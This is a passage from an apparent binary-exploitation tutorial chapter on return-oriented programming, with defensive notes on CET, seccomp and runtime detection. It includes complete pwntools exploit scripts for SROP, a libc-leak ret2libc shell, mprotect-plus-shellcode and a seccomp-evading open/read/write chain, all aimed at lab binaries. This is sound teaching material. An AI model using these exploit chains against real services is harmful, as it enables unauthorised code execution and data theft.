payload += p64(pop_rax) + p64(15)                # rax = 15 = rt_sigreturn
payload += p64(syscall)                          # trigger the sigreturn
payload += bytes(frame)                          # kernel restores from here
io.send(payload)
io.interactive()                                 # execve("/bin/sh") -> shell
```

The magic is that the kernel's `rt_sigreturn` handler does not verify it is returning from a *real* signal — it blindly restores `rax, rdi, rsi, rdx, rip, rsp` and the rest from the 248-byte structure on the stack. You get complete register control from one syscall, which is why SROP is the go-to for binaries with almost no gadgets. pwntools' `SigreturnFrame()` knows the exact field layout so you never lay it out by hand.

---

## Part 10: Stack Pivots and BROP (Brief)

**Stack pivots** (introduced in Chapter 2) matter more here because ROP chains are long: if the overflow only fits a few gadgets, pivot RSP to a large buffer (`read` into .bss, an environment variable, a heap chunk) where the full chain lives. `leave; ret` (using a controlled saved RBP) and `pop rsp; ret` are the workhorses; `add rsp, N; ret` adjusts in steps.

**BROP (Blind Return-Oriented Programming)** is the technique for when you have *no binary at all* — only a remote service that crashes and restarts. The whole method rests on one property of forking servers: a server like nginx or Apache `fork()`s a child per connection, and the child **inherits the parent's exact memory layout**, so ASLR does not re-randomise between connection attempts. Each crash therefore tests one hypothesis against a *stable* address space — turning the remote service into a boolean oracle.

The BROP procedure, in stages:

1. **Find the overflow length** — send increasing lengths until the connection behaviour changes (crash vs. hang), revealing the offset to the return address.
2. **Brute the canary byte-by-byte** — overwrite one canary byte at a time; the correct byte does *not* crash (256 tries × 8 bytes = at most 2048 requests to recover the full canary), because the check only fails on a wrong byte.
3. **Find a "stop gadget"** — an address that, when returned to, makes the connection hang instead of crashing (e.g. a blocking `read`). This gives you a positive oracle: "this address is executable and does not crash."
4. **Find useful gadgets** — probe addresses and observe crash/no-crash to locate a `pop rdi`-style gadget and, crucially, a **`write` gadget/PLT** so you can dump the binary.
5. **Dump the binary over the wire** — use the found `write` to leak the ELF byte-by-byte to your socket, reconstruct it, and then build a normal, precise ROP chain with the recovered binary.



BROP is advanced and situational, but it reframes "I don't have the binary and it's remote" from impossible to a few thousand requests. The canonical demonstration (Bittau et al., "Hacking Blind") popped a shell on a patched-but-still-forking service with no binary and no source. **Blue-team relevance:** the defence is straightforward — do not fork children that share the parent's ASLR (re-exec per connection so each gets fresh randomisation), rate-limit and alert on the thousands of crash-restarts BROP generates, and keep canaries plus PIE on so the brute-force cost is prohibitive on 64-bit.

---

## Part 10B: When `ret` Is Dead — JOP and COP

On CET-shadow-stack hardware (Part 13), every `ret` is checked against a protected copy of the return address, so a classic ROP chain faults immediately. The generalisations that survive replace `ret` with other indirect branches.

**Jump-Oriented Programming (JOP)** uses gadgets ending in `jmp reg` (or `jmp [reg]`) instead of `ret`. Because there is no stack-driven `ret` to sequence the chain, JOP needs a **dispatcher gadget** — a gadget that advances a "program counter" through a table of gadget addresses and jumps to each in turn. A common dispatcher is `add rX, imm ; jmp [rX]`, walking a dispatch table you control.

**Call-Oriented Programming (COP)** uses gadgets ending in `call reg`/`call [reg]`. These leave a return address on the stack (unlike `jmp`), which complicates chaining but sidesteps shadow-stack checks that only validate `ret`.



| Style | Terminator | Sequencing driver | Beats CET shadow stack? |
|-------|-----------|-------------------|-------------------------|
| ROP | `ret` | the stack itself | No — `ret` is checked |
| JOP | `jmp reg` | a dispatcher gadget + dispatch table | Yes (but IBT constrains targets) |
| COP | `call reg` | dispatcher + stack | Partially |

You will rarely hand-write JOP/COP — they are far more fiddly than ROP and gadget-scarce — but you must know they exist, because "the target has CET, so ROP is dead" is not the end of the story. In practice, modern exploits against CET more often pivot to **data-only attacks** (corrupting a length field, a function pointer that IBT permits, or file-stream vtables) than to full JOP. **Blue-team note:** CET's IBT (indirect-branch tracking) requires every indirect `jmp`/`call` target to begin with an `endbr64` marker, which shrinks the JOP/COP gadget set dramatically — this is why CET is deployed as shadow-stack **plus** IBT, not either alone.

---

## Part 11: Hands-On Lab A — NX-Defeating ROP to a Shell

A complete walkthrough against a dynamically-linked, NX-enabled, No-PIE, no-canary binary with ASLR on — the realistic default. Vulnerable program is the `overflow_nx` from Chapter 2 (a `read` into a small buffer).

### Triage

```bash
pwn checksec ./overflow_nx
# RELRO: Partial | No canary | NX enabled | No PIE
# Plan: No canary + No PIE -> straight overflow, static binary gadgets.
#       NX -> ROP.  Dynamic + ASLR -> must leak libc (two-stage).
```

### Offset (Chapter 1/2 method)

```python
io = process('./overflow_nx'); io.send(cyclic(200)); io.wait()
offset = cyclic_find(io.corefile.read(io.corefile.rsp, 8))   # -> 72
```

### The exploit

```python
#!/usr/bin/env python3
from pwn import *

elf  = context.binary = ELF('./overflow_nx')
libc = ELF('./libc.so.6')

def start():
    if args.REMOTE: return remote(args.HOST, int(args.PORT))
    if args.GDB:    return gdb.debug(elf.path, 'b vuln\nc')
    return process(elf.path)

offset = 72
io = start()

# --- stage 1: leak libc via puts(puts@got), return to vuln ---
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(elf.symbols['vuln'])
io.recvuntil(b'input: ')
io.sendline(b'A'*offset + rop.chain())

leak = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
log.success(f'libc base = {libc.address:#x}')

# --- stage 2: system("/bin/sh") ---
rop2 = ROP(libc)
rop2.raw(rop2.find_gadget(['ret'])[0])          # 16-byte alignment
rop2.call('system', [next(libc.search(b'/bin/sh\x00'))])
io.recvuntil(b'input: ')
io.sendline(b'A'*offset + rop2.chain())
io.interactive()
# $ id ; cat flag.txt
```

Run local → GDB → remote with the `args` switch, exactly as in Chapter 2. If stage 2 crashes with a `movaps` fault inside libc, the extra `ret` for alignment is missing or misplaced — that single gadget is the fix. If it rebases to a nonsense libc base, your `libc.so.6` does not match the target's; identify the correct one.

```mermaid
sequenceDiagram
    participant X as Exploit
    participant P as overflow_nx
    X->>P: stage1: ROP puts(puts@got); return vuln
    P-->>X: libc address of puts (leak)
    X->>X: libc.address = leak - off(puts)
    X->>P: stage2: ret(align); system("/bin/sh")
    P-->>X: shell
```

---

## Part 12: Hands-On Lab B — mprotect + Shellcode on a Static Binary

Against a **statically-linked** NX binary there is no libc to leak — but `mprotect` and every syscall are already in the binary, and there are plenty of gadgets. Plan: `read` our shellcode into a writable page, `mprotect` that page RWX, `ret` into it.

```bash
pwn checksec ./static_target      # Statically linked | NX enabled | No PIE
ROPgadget --binary ./static_target | grep -E 'pop rdi|pop rsi|pop rdx|pop rax|syscall'
```

```python
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF('./static_target')
rop = ROP(elf)

offset   = 72
bss      = elf.bss(0x200)                       # writable scratch, page-aligned below
page     = bss & ~0xfff
sc       = asm(shellcraft.amd64.linux.sh())

io = process(elf.path)

# stage 1: read shellcode into bss, then mprotect the page RWX, then jump to it
rop.read(0, bss, len(sc))                        # read(0, bss, len)
rop.mprotect(page, 0x1000, 7)                    # PROT_RWX
rop.raw(bss)                                     # ret into the shellcode
io.recvuntil(b'input: ')
io.sendline(b'A'*offset + rop.chain())
io.send(sc)                                      # the read() consumes this as shellcode
io.interactive()
```

`rop.read`, `rop.mprotect` are pwntools conveniences that plan the argument-register setup (using ret2csu if RDX has no clean `pop`). This lab shows the full circle: NX stopped stack shellcode, ROP called `mprotect` to defeat NX, and shellcode runs after all — often the *simplest* path when you have space and a static binary.

---

## Part 12B: When execve Is Blocked — the open/read/write Chain

Many modern CTF challenges (and hardened services) apply a **seccomp-BPF** filter that forbids `execve`/`execveat`, so `system("/bin/sh")` and every `one_gadget` simply get the process killed by the kernel. You inspect the filter first:

```bash
seccomp-tools dump ./target       # prints the allowed/denied syscall policy
#  line  CODE  JT   JF      K
#  ...
#  0007: if (A == execve) goto KILL   <- execve is blocked
#  0008: if (A == openat) goto ALLOW  <- but open/read/write are permitted
```

If `execve` is dead but `open`, `read`, and `write` are allowed, the goal changes from "get a shell" to "read the flag file and print it" — an **ORW (open-read-write) ROP chain**:

```python
# ORW: open("flag.txt") -> read(fd, bss, 100) -> write(1, bss, 100)
rop = ROP(elf)
flag = elf.bss(0x100)
rop.raw(b'A'*offset)
# stage the filename in a writable buffer first (via a read() or a mov gadget)
rop.open(flag_path_addr, 0)             # fd = open("flag.txt", O_RDONLY)  -> returns 3
rop.read(3, flag, 100)                   # read the flag into bss
rop.write(1, flag, 100)                  # print it to stdout
io.sendline(rop.chain())
```

The subtlety is the **file descriptor number**: `open` returns the fd in RAX (typically 3, since 0/1/2 are stdin/out/err), and `read` needs that fd in RDI — but you cannot know RAX's value at *chain-build* time to hardcode it. Either assume fd 3 (usually correct for the first open), or use a `mov rdi, rax; ret`-style gadget to shuttle the returned fd from RAX into RDI at runtime. This "the fd is only known at runtime" problem is the defining challenge of ORW chains.


**This is why seccomp is such a strong defence** (Part 13): even with full RIP control and a working ROP chain, blocking `execve` forces the attacker into a longer, fd-juggling ORW chain that only *reads a file* rather than spawning a shell — and if the filter also restricts `open`/`openat`, even that path closes. Recognising the seccomp policy up front (via `seccomp-tools`) tells you which of `system`, `one_gadget`, or ORW is even viable.

---

## Part 13: Detection & Defense Angle

ROP was invented to defeat NX, so the defensive story is about the mitigations layered *on top* of NX to make chains hard or impossible to build and deliver.

**Mitigations aimed specifically at ROP:**

| Mitigation | How it fights ROP | Attacker response |
|------------|-------------------|-------------------|
| **ASLR / PIE** | randomises where gadgets live | leak an address first (Part 6); Chapter 4 |
| **Stack canary** | stops the overflow reaching RA | leak or brute the canary; Chapter 4 |
| **Full RELRO** | GOT read-only — no GOT-overwrite chains | pivot to ret2libc/leak-based ROP |
| **CET Shadow Stack** (Intel/AMD, hardware) | keeps a protected copy of each return address; `ret` faults if the stack RA was tampered | needs a non-ret primitive (JOP/COP) or a CET bypass |
| **CET IBT (indirect-branch tracking)** | indirect calls/jmps must land on `endbr64` | constrains JOP gadget targets |
| **Fine-grained CFI** (Clang CFI, LLVM) | validates indirect call targets against types | drastically shrinks usable gadgets |
| **`-z noexecstack` + W^X everywhere** | no writable-executable pages | forces the harder mprotect/syscall route |

**CET shadow stacks** are the most consequential modern development: because the CPU keeps a separate, protected stack of return addresses and compares it on every `ret`, a classic ROP chain (which corrupts the ordinary stack's return addresses) triggers a control-protection fault. On CET-enabled hardware and OSes, pure ret-based ROP is dead, pushing attackers toward jump-oriented (JOP) and call-oriented (COP) programming, or toward bugs that give data-only control. Defenders should enable CET where the hardware and toolchain support it.

**Detecting ROP at runtime.** ROP execution has a statistical fingerprint that runtime defenses (and some EDRs) watch for: an unusually high rate of `ret` instructions transferring to addresses that are not preceded by a `call` (a "call-ret imbalance"), short instruction runs between `ret`s, and RSP walking through a region that looks like a table of code pointers. Control-flow-integrity instrumentation and hardware LBR-based detectors flag exactly this. **Blue-team usage:** a service that suddenly executes `mprotect(..., RWX)` or `execve("/bin/sh")` when it never legitimately does so is a high-signal telemetry event — seccomp-BPF filters that forbid `execve`/`mprotect-to-RWX` on a network daemon neutralise most ROP payloads even after RIP is hijacked, because the final syscall the chain needs is blocked by the kernel.

**Defense in depth that actually stops this chapter's labs.** A hardened build — PIE+ASLR (no fixed gadget addresses), Full RELRO (no GOT writes), stack canaries (overflow can't reach RA), CET shadow stack (ret tampering faults), and a **seccomp** allowlist that forbids `execve`/`mprotect` — turns every lab here from "works" into "needs multiple additional primitives, and even then the payload's final syscall is blocked." That layered posture, not any single control, is what makes modern exploitation expensive.

---

## Part 14: Common Pitfalls

- **Missing 16-byte stack alignment.** glibc functions using `movaps` fault unless RSP ≡ 0 (mod 16) at the `call`. Insert one bare `ret` gadget before the call. This is the #1 "my ret2libc crashes inside libc" cause.
- **Wrong libc offsets.** Rebasing with a libc that is not the target's produces a garbage base. Use the provided libc, or fingerprint the version from leaked symbols.
- **Forgetting RDX.** Many functions/syscalls need RDX and few binaries have `pop rdx; ret`. Reach for ret2csu or SROP instead of assuming a gadget exists.
- **Unpacking leaks wrong.** libc addresses are 6 bytes; `u64(x.ljust(8, b'\x00'))`. Reading 8 raw bytes that include a trailing newline corrupts the value.
- **Chaining across the wrong module.** Gadget addresses in libc are only valid after you know libc's base; do not mix fixed-binary gadgets and un-rebased libc gadgets in the same stage.
- **Bad bytes in the chain.** If the input goes through `gets`/`strcpy`, gadget or data addresses containing `\n`/`\x00` truncate the chain (Chapter 2). Pick alternate gadgets or use a binary-safe input path.
- **Assuming ret2csu works on new glibc.** glibc 2.34+ removed the classic `__libc_csu_init` gadget; verify it exists or find an equivalent.
- **Not verifying with `rop.dump()`.** When a pwntools chain fails, print `rop.dump()` and single-step it in GDB — the chain almost always breaks at one identifiable gadget (usually alignment or a missing register).
- **Ignoring seccomp.** Firing `system`/`one_gadget` at a target that seccomp-blocks `execve` just gets the process killed. Run `seccomp-tools dump` first; if `execve` is blocked, switch to an ORW chain.
- **Hardcoding the ORW file descriptor.** `open` returns the fd in RAX at runtime; assuming fd 3 is usually right but not guaranteed — use a `mov rdi, rax` gadget when robustness matters.
- **ret2csu truncating RDI.** The CSU mover sets only `edi` (low 32 bits). If arg 1 is a full 64-bit pointer, fix RDI afterward with `pop rdi; ret`.
- **Building JOP/COP when a data-only path exists.** On CET targets, corrupting a length field or a file-stream vtable is usually far more reliable than hand-rolling a dispatcher chain — reach for the simpler primitive first.

---

## Part 15: Final Revision / Summary

- **NX/DEP** makes data pages non-executable, killing stack shellcode without stopping RIP control. The answer is to reuse existing executable code — **ROP**.
- A **gadget** is a short instruction run ending in `ret`; because `ret` pops RIP from the attacker-controlled stack, a stack full of gadget addresses is a program. Learn the gadget families (load, move, write, read, arithmetic, syscall, pivot, alignment).
- **Find gadgets** with ROPgadget/ropper (including unintended mid-instruction decodings); **chain them** with pwntools `ROP` and verify with `rop.dump()`.
- Build **execve via syscall** by writing `"/bin/sh"` to .bss with a memory-write gadget, then setting RAX=59/RDI/RSI/RDX and `syscall`.
- The **two-stage leak** (leak a GOT entry → rebase libc → ret2libc/one_gadget) is mandatory against ASLR; using the wrong libc's offsets is the top failure.
- **mprotect + shellcode** turns NX off for one page and runs shellcode after all — often the simplest path with space and a static binary.
- **ret2csu** loads argument registers (especially RDX) when dedicated `pop` gadgets are missing (but its mover only sets `edi`, the low 32 bits); **SROP** forges a sigcontext to set *every* register from one `rt_sigreturn`; **stack pivots** host long chains in a bigger buffer; **BROP** builds chains blind against a forking server by brute-forcing the canary and probing gadgets through a crash oracle.
- **Unknown libc?** Fingerprint it from two leaked symbols' low 12 bits via libc-database/libc.rip, then use that build's offsets.
- **When `execve` is seccomp-blocked**, pivot to an **ORW chain** (`open`→`read`→`write`) that reads and prints the flag; check the policy with `seccomp-tools dump` before choosing a technique.
- **When `ret` itself is dead** (CET shadow stack), the generalisations are **JOP** (`jmp`-terminated, dispatcher-driven) and **COP** (`call`-terminated), though data-only attacks are often more practical.
- Defensively, **CET shadow stacks** break classic ret-based ROP, **Full RELRO/PIE/canary** remove primitives, and a **seccomp allowlist** blocking `execve`/`mprotect` neutralises the payload's final step even after RIP hijack — layered, not singular, defense.

Chapter 4 supplies the missing piece these chains assumed away: how to actually *defeat ASLR, stack canaries, and PIE* with leaks and partial overwrites, so the ROP you built here works against a fully hardened target.

---

## Part 16: Cheat Sheet / Quick Reference

**Discovery**

```bash
pwn checksec ./t                         # confirm NX (and RELRO/PIE/canary)
ROPgadget --binary ./t | grep 'pop rdi ; ret'
ropper -f ./t --search 'mov qword ptr [%], %'
one_gadget ./libc.so.6                   # single-address shells
```

**Chain (pwntools)**

```python
rop = ROP([elf, libc])
rop.call('system', [next(libc.search(b'/bin/sh'))])
rop.raw(rop.find_gadget(['ret'])[0])     # alignment
print(rop.dump()); payload = b'A'*off + rop.chain()
```

**Two-stage leak**

```python
rop.call('puts',[elf.got['puts']]); rop.call(elf.symbols['main'])
libc.address = u64(io.recvline().strip().ljust(8,b'\0')) - libc.symbols['puts']
```

**Syscall execve chain**

```
[pop rdi][&"/bin/sh"] [pop rsi][0] [pop rdx][0] [pop rax][59] [syscall]
```

**mprotect + shellcode**

```python
rop.read(0,bss,len(sc)); rop.mprotect(bss&~0xfff,0x1000,7); rop.raw(bss)
```

**SROP:** `SigreturnFrame()` → set rax/rdi/rsi/rdx/rip → `[pop rax][15][syscall] + bytes(frame)`.
**ret2csu:** when you can't set RDX; **pivot:** `leave; ret` / `pop rsp; ret` for long chains.
**Always:** one bare `ret` before a libc call for 16-byte alignment.

---

## Part 17: Practice Labs & Resources

- **ROP Emporium (all challenges: `ret2win` → `split` → `callme` → `write4` → `badchars` → `fluff` → `pivot` → `ret2csu`).** The definitive ROP course; each level isolates one technique from this chapter. `write4` = memory-write gadget (Part 4), `pivot` = Part 10, `ret2csu` = Part 8. Do them x86-64.
- **pwn.college — Return-Oriented Programming and Sandboxing modules.** Large graded set covering leaks, syscalls, mprotect, SROP, and seccomp-restricted targets.
- **picoCTF — Binary Exploitation (`Here's a LIBC`, `Cache Me Outside`, ROP-tagged).** Two-stage libc-leak practice at a gentle level.
- **HackTheBox — pwn (medium): ret2libc and ROP-chain boxes.** Remote services that force the `args.REMOTE` two-stage workflow.
- **guyinatuxedo/nightmare — ROP and SROP chapters.** Real CTF challenges with full pwntools solutions to check yours against.
- **`one_gadget`, `ROPgadget`, `ropper` docs**, and pwntools' `ROP`/`SigreturnFrame`/`ret2csu` API reference — read once so you know what the tools will do for you.
- **"Sigreturn Oriented Programming" (Bosman & Bos) and the original ROP paper (Shacham, "The Geometry of Innocent Flesh on the Bone").** The primary sources; worth skimming to understand *why* these techniques are so general.
- **pwn.college — Sandboxing / seccomp module, and any "no-execve" CTF challenge.** Practice ORW chains against a filter that blocks `execve`; `seccomp-tools` is your first command.
- **"Hacking Blind" (Bittau et al.) and a local forking-server BROP lab.** The BROP paper plus a deliberately-forking target teach the crash-oracle mindset from Part 10.

Graduation test for this chapter: on a dynamically-linked NX+ASLR no-canary binary you have not seen, write one pwntools script that leaks libc, fingerprints an *unknown* libc if none is provided, rebases, and pops a **remote** shell; then, on a seccomp-`execve`-blocked variant of the same binary, adapt it into a working **ORW** chain that prints the flag. Clearing both — a shell where allowed, a file read where not — proves you can build arbitrary computation out of borrowed code against a realistically hardened target, which is exactly what Chapter 4's canary/ASLR/PIE bypasses will let you do even when the mitigations are all switched on.

Graduation test: against a dynamically-linked, NX+ASLR, no-canary binary you have not seen, write one templated pwntools script that leaks libc, rebases, and pops a **remote** shell with a ROP chain — and separately, on a static binary, get a shell via `mprotect`+shellcode. Clear both and you are ready for Chapter 4, where the canary and full ASLR/PIE stop standing conveniently out of the way.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/vuln-research-binexp/03-return-oriented-programming-rop-and-bypassing-dep-nx), with comments and the latest edits.*
